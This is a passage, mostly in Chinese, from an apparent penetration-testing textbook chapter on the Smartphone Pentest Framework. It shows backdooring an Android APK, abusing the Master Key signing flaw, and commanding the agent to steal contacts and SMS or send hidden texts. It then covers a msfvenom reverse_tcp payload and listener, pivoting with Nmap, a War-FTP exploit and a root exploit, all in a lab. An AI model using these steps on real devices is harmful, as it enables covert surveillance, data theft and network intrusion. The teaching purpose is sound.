Puts the Android Agent inside an Android App APK. The application runs normally with extra functionality
APK to Backdoor: **/root/Smartphone-Pentest-Framework/APKs/MapsDemo.apk**
I: Baksmaling...
--*snip*--
```

默认情况下，SPF 不会安装 APKTool 程序，而该程序是解编译 APK 所必需的；它会询问是否安装。输入 **`y`**，SPF 将安装 APKTool 并继续。

当提示时，告诉 SPF 对 APK */root/Smartphone-Pentest-Framework/APKs/MapsDemo.apk*（先前使用的 Google Maps 演示代码的编译版本）植入后门。SPF 将解编译该 APK，结合 SPF 代理，并重新编译。

要设置代理，SPF 需要知道控制电话号码、控制密钥和控制路径。这些信息与我们在给源代码植入后门时使用的相同，详见示例 20-15。

示例 20-15. 设置选项

```
Phone number of the control modem for the agent: **15555215554**
Control key for the agent: **KEYKEY1**
Webserver control path for agent: **/androidagent1**
Control Number: 15555215554
Control Key:KEYKEY1
ControlPath:/androidagent1
Is this correct?(y/n) **y**
--*snip*--
```

在 APKTool 重新编译了带后门的 APK 后，我们需要对其进行签名。在安装时，Android 设备会检查 APK 上的签名。如果 APK 没有签名，它将被拒绝，即使是在模拟器上也是如此。Google Play 应用使用开发者密钥进行签名，该密钥在 Google Play 上注册。

为了在不限制 Google Play 应用的模拟器和设备上运行应用，我们只需使用未在 Google 注册的调试密钥，但应用仍然必须签名。当我们给源代码植入后门时，由于我们使用 Android SDK 编译代码，自动将我们的代码使用默认的 Android 密钥库签名，因此可以跳过这一步。而在此处使用 APKTool 时，我们需要手动重新创建签名。

您将被询问是否使用 Android Master Key 漏洞，该漏洞允许攻击者和渗透测试者欺骗 Android 的签名验证过程，使其认为我们的应用是已经安装的应用的合法更新。换句话说，我们将能够用我们的代码替换合法的应用，Android 系统会将其视为厂商的合法更新。（此验证过程中的缺陷在 Android 4.2 中得到了修复。）要使用 Android Master Key 漏洞，请在提示时输入 **`y`**，如下面所示。

### 注意

为了利用此问题，原始应用及其签名会被复制到我们的带后门的 APK 中。有关如何触发 Master Key 漏洞的详细信息，请参见：http://www.saurik.com/id/17。

```
Use Android Master Key Vuln?(y/N): **y**
Archive:  /root/Desktop/abcnews.apk
--*snip*--
Inflating: unzipped/META-INF/CERT.RSA
```

要查看 Android Master Key 漏洞的工作情况，请在运行 Android 4.2 之前版本的设备上安装来自 */root/Smartphone-Pentest-Framework/APKs* 的合法版本的 *MapsDemo.apk*，然后尝试通过 SMS 或 NFC 使用 SPF 安装您刚刚创建的带后门的版本。您应该会被提示替换 *MapsDemo.apk*，并且即使我们没有访问构建正确签名所需的私钥，签名验证也应成功。

如果目标设备没有受到 Master Key 的影响，或者应用还未安装在目标设备上，你可以直接使用 Kali 上的 Android 密钥库默认密钥来签名该应用。为此，在提示“是否使用 Android Master Key 漏洞”时，输入**`n`**，如示例 20-16 所示。

示例 20-16. 签名 APK

```
Use Android Master Key Vuln?(y/N): **n**
Password for Debug Keystore is android
Enter Passphrase for keystore:
--*snip*--
  signing: resources.arsc
```

系统会提示你输入调试密钥库的密码。默认情况下，此操作不会使用发布在 Google Play 上的密钥来签名 APK，但对于我们的目的来说已经足够。该应用现在已用调试密钥签名，应该可以在任何不限制只能安装官方 Play Store 应用的设备上安装。请注意，如果渗透测试的范围包括诱使用户从 Google Play 商店下载恶意应用，渗透测试人员完全可以用他们注册的合法 Google Play 密钥来签名该应用。

### 注意

带有后门的 APK 与我们在后门源代码中创建的代理功能等效，可以通过相同的方式进行部署。当然，部署后我们已经有一个可用的代理可以进行操作，接下来我们将查看在代理部署后，我们可以对设备及其本地网络执行哪些操作。

## 移动后渗透

现在我们已经进入设备，有几个选项可以选择。我们可以从设备上收集本地信息，如联系人或收到的 SMS 消息，还可以远程控制设备执行一些操作，如拍照。如果我们对权限不满意，可以尝试对设备进行权限提升，获得 root 权限。我们甚至可以利用被攻陷的移动设备攻击网络上的其他设备。（如果设备直接连接到公司网络或使用 VPN 访问网络，这种攻击尤其有趣。）

### 信息收集

我们将通过获取感染设备上已安装应用程序的列表来进行信息收集示例，如示例 20-17 所示。

示例 20-17. 在代理上运行命令

```
spf> **2**
View Data Gathered from a Deployed Agent:
Available Agents:
    1.) 15555215556
Select an agent to interact with or 0 to return to the previous menu.
spf> **1**❶
Commands:❷
    1.) Send SMS
    2.) Take Picture
    3.) Get Contacts
    4.) Get SMS Database
    5.) Privilege Escalation
    6.) Download File
    7.) Execute Command
    8.) Upload File
    9.) Ping Sweep
    10.) TCP Listener
    11.) Connect to Listener
    12.) Run Nmap
    13.) Execute Command and Upload Results
    14.) Get Installed Apps List
    15.) Remove Locks (Android < 4.4)
    16.) Upload APK
    17.) Get Wifi IP Address
Select a command to perform or 0 to return to the previous menu
spf> **14**❸
    Gets a list of installed packages(apps) and uploads to a file.
Delivery Method(SMS or HTTP): **HTTP**❹
```

从主菜单中选择**`2`**选项，然后从列表 ❶ 中选择代理。当出现可用代理功能的列表 ❷ 时，选择 `14.) 获取已安装应用列表` ❸。SPF 会询问你如何传递命令，我们将使用 HTTP ❹。（回想一下，代理可以通过 HTTP 和 SMS 与外界通信并接收命令。）

输入**`0`**以返回到上一个菜单，直到到达主菜单。稍等片刻，然后选择 `3.) 查看收集到的信息`，如示例 20-18 所示。

示例 20-18. 查看收集到的数据

```
spf> **3**
View Data Gathered from a Deployed Agent:
Agents or Attacks? **Agents**❶
Available Agents:
    1.) 15555215556
Select an agent to interact with or 0 to return to the previous menu.
spf> **1**❷
Data:
SMS Database:
Contacts:
Picture Location:
Rooted:
Ping Sweep:
File:
Packages: package:com.google.android.location❸
--*snip*--
package:com.android.providers.downloads
package:com.android.server.vpn
```

系统会询问你是否想查看攻击或代理的结果；输入**`Agents`** ❶。选择我们的代理 ❷。设备信息会从数据库中提取，尽管目前我们只有由之前命令收集的已安装应用列表 ❸。（你可以运行额外的信息收集命令来填充更多条目。）

### 远程控制

现在让我们看看如何使用代理来远程控制设备。我们可以告诉设备发送一条不会出现在短信应用的已发送消息中的短信。事实上，用户根本不会知道有消息被发送——这不就是利用信任圈的最佳方式吗？也许我们可以抓取所有用户的联系人，并向他们发送消息，告诉他们应该安装我们的酷炫应用，而这个应用恰好指向 SPF 代理。由于消息来自他们认识的人，用户更可能会安装该代理。

让我们先发送一条示例消息，如示例 20-19 所示。

示例 20-19. 远程控制代理

```
Commands:
--*snip*--
Select a command to perform or 0 to return to the previous menu
spf> **1**❶
Send an SMS message to another phone. Fill in the number, the message to send, and the delivery method(SMS or HTTP).
Number: **15555215558**
Message: **hiya Georgia**
Delivery Method(SMS or HTTP) **SMS**
```

在代理命令菜单中，选择选项 `1.) 发送短信` ❶。当系统要求输入电话号码、消息内容和发送命令的方式时，告诉你的代理将短信发送到 Android 2.1 模拟器。

你的 Android 2.1 模拟器将收到来自 Android 2.2 模拟器的短信，内容是你输入的文本，在两个模拟器上都没有任何迹象表明这不是一条正常的消息。

### 通过移动设备进行跳板攻击

移动设备管理（MDM）和移动 antivirus 应用程序还有很长的路要走。与许多其他安全控制措施相比，要求员工使用这些解决方案的公司数量仍然很少，有些公司甚至选择完全不允许使用移动设备。但我们不得不面对一个现实：员工们可能知道公司的无线网络密码。连接你的移动设备后，它神奇地变成了与工作站及其他可能包含敏感信息的设备同一个网络中的一员。

自然，企业在强化外部资产方面做得要好得多。毕竟，这些设备对来自互联网的任何攻击者开放，它们也得到了大部分的关注。但在内部，情况就开始出现问题了。弱密码、缺失补丁和过时的客户端软件，都是我们在本书中讨论过的可能潜伏在内部网络中的问题。如果一个被利用的移动设备能够直接访问这些脆弱的系统，我们可能能够利用它作为跳板发起更多攻击，完全绕过外围防线。

我们在第十三章中研究了枢纽操作，当时我们使用一个被利用的机器从一个网络移动到另一个网络。在这里，我们可以使用 SPF 代理做同样的事情，通过被利用的移动设备在移动网络上有效地进行渗透测试，如图 20-4 所示。

图 20-4. 通过感染的移动设备攻击内部设备

#### 使用 Nmap 进行端口扫描

我们首先通过使用代理命令选项来执行本地网络的 ping 扫描，看看有哪些设备在网络中。接下来，我们将进行一些端口扫描，如在第五章中所讨论的那样。事实证明，你可以在被利用的设备上安装 Nmap 的 Android 二进制文件。SPF 提供了安装脚本来安装 Nmap 和其他支持工具。从主菜单选择选项 `10.) Install Stuff`，并告诉 SPF 安装 Nmap for Android，如示例 20-20 所示。

示例 20-20. 安装 Nmap for Android

```
spf> **10**

What would you like to Install?
    1.) Android SDKS
    2.) Android APKTool
    3.) Download Android Nmap
spf> **3**

Download Nmap for Android(y/N)?
spf> **y**
```

现在，通过选择选项 `12.) Run Nmap` 从我们的 Android 代理运行 Nmap。让我们对 Windows XP 目标 ❶ 运行 Nmap，如示例 20-21 所示。确保我们在第十七章和第十八章中利用的 War-FTP 程序仍在运行。（我们将在下一节通过枢纽再次利用它。）

示例 20-21. 从 Android 运行 Nmap

```
Select a command to perform or 0 to return to the previous menu
spf> **12**

    Download Nmap and port scan a host of range. Use any accepted format for target specification in Nmap
Nmap Target: **192.168.20.10**❶
Delivery Method(SMS or HTTP) **HTTP**
```

让 Nmap 运行几分钟，然后检查代理收集的信息。你应该注意到文件字段链接到 */root/Smartphone-Pentest-Framework/frameworkconsole/text.txt*。查看该文件的内容——你应该能看到类似示例 20-22 的内容。

示例 20-22. Nmap 结果

```
# Nmap 5.61TEST4 scan initiated Sun Sep  6 23:41:30 2015 as: /data/data/com.example.android.google
.apis/files/nmap -oA /data/data/com.example.android.google.apis/files/nmapoutput 192.168.20.10
Nmap scan report for 192.168.20.10
Host is up (0.0068s latency).
Not shown: 992 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
--*snip*--

# Nmap done at Sun Sep  6 23:41:33 2015 -- 1 IP address (1 host up) scanned in 3.43 seconds
```

与其使用被利用的移动设备作为枢纽进行整个渗透测试，不如通过 SPF 代理来执行一个利用程序。

#### 在本地网络上利用系统

不幸的是，Android 设备默认无法识别像 Python 和 Perl 这样的脚本语言；为了运行漏洞利用，我们需要一些 C 代码。我们为 War-FTP 1.65 编写的一个简单 C 版本的漏洞利用代码可以在第十七章中找到，路径是*/root/Smartphone-Pentest-Framework/exploits/Windows/warftpmeterpreter.c*。其中包含的 shellcode 运行一个*windows/meterpreter/reverse_tcp*载荷，并将其发送回 192.168.20.9 的 4444 端口。如果你的 Kali 系统使用的是其他 IP 地址，可以通过 Msfvenom 重新生成 shellcode，具体方法如下所示。（别忘了第十七章中的 War-FTP 的坏字符，我们可以使用 Msfvenom 的`-b`标志来避免这些字符。）

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9 -f c -b '\x00\x0a\x0d\x40'
```

一旦你在漏洞利用中替换了 shellcode（如果需要的话），我们需要编译 C 代码以在 Android 设备上运行。如果我们使用 GCC，如第三章中所示，漏洞利用将在我们的 Kali 机器上正常运行，但 Android 手机上的 ARM 处理器将无法识别它。

我们在第十二章中简要介绍了 Windows 的交叉编译器，它允许我们在 Kali 上编译 C 代码并在 Windows 上运行。只要我们拥有 ARM 交叉编译器，也可以对 Android 做同样的事情。幸运的是，SPF 中就有一个。如示例 20-23 所示，从主菜单中选择`9.) 编译代码以在移动设备上运行`选项。

示例 20-23. 为 Android 编译 C 代码

```
spf> **9**

Compile code to run on mobile devices
    1.) Compile C code for ARM Android
spf> **1**❶

Compiles C code to run on ARM based Android devices. Supply the C code file and the output filename
File to Compile: **/root/Smartphone-Pentest-Framework/exploits/Windows/warftpmeterpreter.c**❷
Output File: **/root/Smartphone-Pentest-Framework/exploits/Windows/warftpmeterpreter**
```

选择`1.) 为 ARM Android 编译 C 代码` ❶。系统会提示你选择要编译的 C 文件以及要保存编译后的二进制文件的位置 ❷。

现在，我们需要将 War-FTP 漏洞利用下载到我们的感染了的 Android 设备上。从代理命令菜单中，选择**`6`**选项下载文件。系统会询问你要下载的文件以及下载方法，如示例 20-24 所示。

示例 20-24. 下载漏洞利用

```
Select a command to perform or 0 to return to the previous menu
spf> **6**

    Downloads a file to the phone. Fill in the file and the delivery method(SMS or HTTP).
File to download: **/root/Smartphone-Pentest-Framework/exploits/Windows/warftpmeterpreter**
Delivery Method(SMS or HTTP): **HTTP**
```

在运行漏洞利用之前，我们需要在 Msfconsole 中设置一个处理程序，如示例 20-25 所示。在 Kali 中打开 Msfconsole，使用*multi/handler*模块，并将选项设置为与 War-FTP 漏洞利用中的载荷相匹配。

示例 20-25. 设置 multi/handler

```
msf > **use multi/handler**
msf exploit(handler) > **set payload windows/meterpreter/reverse_tcp**
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > **set LHOST 192.168.20.9**
LHOST => 192.168.20.9
msf exploit(handler) > **exploit**

[*] Started reverse handler on 192.168.20.9:4444
[*] Starting the payload handler...
```

最后，到了运行漏洞利用的时候。如示例 20-26 所示，选择代理命令菜单中的`7.) 执行命令`选项；系统会提示你输入要运行的命令。

示例 20-26. 运行漏洞利用

```
Select a command to perform or 0 to return to the previous menu
spf> **7**

    Run a command in the terminal. Fill in the command and the delivery method(SMS or HTTP).

Command: **warftpmeterpreter 192.168.20.10 21**❶
Downloaded?: **yes**❷
Delivery Method(SMS or HTTP): **HTTP**
```

告诉 SPF 完整的命令，包括参数❶。在这种情况下，我们需要告诉漏洞攻击的 IP 地址和端口。SPF 会询问二进制文件是否已下载。如果是通过 SPF 下载的，它会在代理的文件目录中，SPF 需要知道从那里运行它。在我们的案例中，我们回答**`yes`** ❷，然后像往常一样输入传输方法。

观察你的 Metasploit 监听器。在大约一分钟后，你应该会看到一个 Meterpreter 提示符，如下所示。

```
meterpreter >
```

我们成功地使用了 SPF 作为攻击的枢纽。虽然这看起来不太令人兴奋，因为模拟器、Kali 和 Windows XP 目标都在同一网络中，但如果 Kali 在云端，而 Windows XP 目标和一个感染的 Android 设备在公司网络中，这个过程将会更有用。我们可以通过使用命令选项`10.) TCP Listener`来设置监听器，在感染的移动设备上捕获我们的 Shell。我们可以不再调用 Kali 机器上的监听器，而是直接通过 HTTP 或 SMS 将 Shell 发送回 SPF。使用 SMS 当然可以让我们完全绕过任何可能阻止攻击者从网络中获取 Shell 的外围过滤，比如防火墙和代理。此过程如图 20-5 所示。

图 20-5. 使用基于 SMS 的 Shell 绕过外围控制。

### 注意

除了接下来讨论的权限提升示例外，我们没有理由必须使用 Android 2.2 作为目标模拟器。本章中我们使用的其他恶意应用示例可以在任何版本的 Android 上运行。

### 权限提升

作为一个分支的 Linux 内核，Android 共享了一些 Linux 的权限提升漏洞，并且自身也有一些安全漏洞。甚至 OEM 厂商在实现 Android 时也加入了漏洞。例如，2012 年，发现三星设备在使用某种芯片时，在处理相机内存时存在权限提升漏洞，攻击者可以获得所有内存的读写访问权限。

如果你希望你的应用获得更多权限，你可以尝试利用代理中的已知问题来获得 root 权限，如示例 20-27 所示。

示例 20-27. 运行权限提升漏洞

```
Commands:
--*snip*--
Select a command to perform or 0 to return to the previous menu
spf> **5**
    1.) Choose a Root Exploit
    2.) Let SPF AutoSelect

Select an option or 0 to return to the previous menu
spf> **2**❶
    Try a privilege escalation exploit.

Chosen Exploit: rageagainstthecage❷
Delivery Method(SMS or HTTP): **HTTP**❸
```

在代理命令菜单中，选择选项`5.) 权限提升`。从这里我们有两个选项。我们可以手动选择 SPF 已知的 Android 漏洞利用，或者让 SPF 根据 Android 版本号自动选择。我们的 Android 2.2 模拟器易受 Rage Against the Cage 漏洞利用的攻击。尽管这是一个较旧的漏洞，但它在模拟器上效果很好，所以让我们让 SPF 自动选择漏洞利用，如图❶所示。因为这是 Android 2.2，SPF 正确地选择了`rageagainstthecage` ❷，并要求选择传递方法❸。

在让漏洞利用程序运行一段时间后，请返回主菜单，选择选项**`3`**。Rooted 字段应显示`RageAgainstTheCage`，如下所示。

```
Rooted: RageAgainstTheCage
```

从这里我们可以完全控制设备。我们可以通过 root shell 发出命令，或将代理重新安装为系统应用程序，从而比原始应用程序获得更多权限。

### 注意

这个特定的漏洞利用是资源耗尽攻击，因此，如果你希望继续使用模拟器进行其他练习，可能需要重启它，因为在此攻击之后，它可能会变得较慢。

## 总结

在本章中，我们简要了解了相对较新且快速发展的移动设备漏洞利用领域。我们使用我的 SPF 工具进行了多种攻击，主要是在模拟的安卓移动设备上。这些攻击当然也能在真实设备上以相同的方式工作。我们研究了一个远程攻击，检查越狱 iPhone 上的默认 SSH 密码，然后研究了两个客户端攻击示例。一个通过浏览器中的 WebKit 漏洞为我们提供了一个 Shell，另一个则通过从网页自动拨打的 USSD 代码远程控制设备。

我们转向了恶意应用程序，利用 SPF Android 代理在合法源代码或已编译的 APK 文件中植入后门。我们可以使用 NFC 和 SMS 等移动攻击向量欺骗用户安装我们的恶意应用。一旦代理安装成功，我们运行了如信息收集和远程控制等攻击，并使用 SPF 利用已知的 Android 平台漏洞提升我们的 root 权限。最后，我们将 SPF 代理作为跳板，攻击网络中的其他设备。我们从 Android 设备运行 Nmap 对 Windows XP 目标进行扫描，然后使用 C 语言编写的 War-FTP 漏洞利用，从 SPF 代理中利用 Windows XP 目标。

移动设备安全是一个令人兴奋的领域，随着这些设备进入工作场所，它为渗透测试增加了新的维度。作为渗透测试人员，了解一些移动设备漏洞将会派上用场。随着攻击者利用这些设备获取敏感数据并在网络中立足，渗透测试人员必须能够模拟这些相同的威胁。
